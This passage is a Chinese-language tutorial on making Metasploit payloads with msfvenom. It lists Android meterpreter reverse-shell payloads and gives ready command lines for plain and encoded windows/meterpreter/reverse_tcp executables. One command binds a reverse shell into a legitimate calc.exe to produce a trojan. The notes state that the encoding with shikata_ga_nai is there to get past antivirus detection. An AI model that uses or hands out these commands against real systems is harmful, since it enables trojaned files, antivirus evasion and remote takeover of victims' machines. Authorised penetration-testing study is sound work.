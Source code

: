 ```
    android/meterpreter/reverse_tcp                     Run a meterpreter server in Android. Connect back stager
    android/meterpreter_reverse_http                    Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_https                   Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_tcp                     Connect back to the attacker and spawn a Meterpreter shell
    ...
```

### 生成payload - 格式说明

* 生成不经过编码的普通payload（不编码->生成内容固定->直接被杀）

```
#格式
msfvenom -p <payload> <payload options> -f <format> -o <path>
#实例
msfvenom –p windows/meterpreter/reverse_tcp –f c –o 1.c
```

* 经过编码器处理后生成payload

```
#格式
msfvenom -p <payload> -e <encoder > -i <encoder times> -n <nopsled> -f <format> -o <path>
#实例
msfvenom –p windows/meterpreter/reverse_tcp –i 3 –e x86/shikata_ga_nai –f exe –o C:\back.exe
```

* 捆绑到正常文件后生成payload（暂未测试是否可加-e参数）

```
Msfvenom –p windows/meterpreter/reverse_tcp –platform windows –a x86 –x C:\calc.exe –k –f exe –o C:\shell.exe
```



### -p [指定攻击载荷名称]

生成payload至少需指定-p 和 -f

1.指定msfvenom自带的payload名称  `–p windows/meterpreter/reverse_tcp`

2.指定自定义的payload `-p -` 如：

```
cat payload_file.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```


```
#暂未测试
cat 1.exe | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f exe -o 2.exe
```

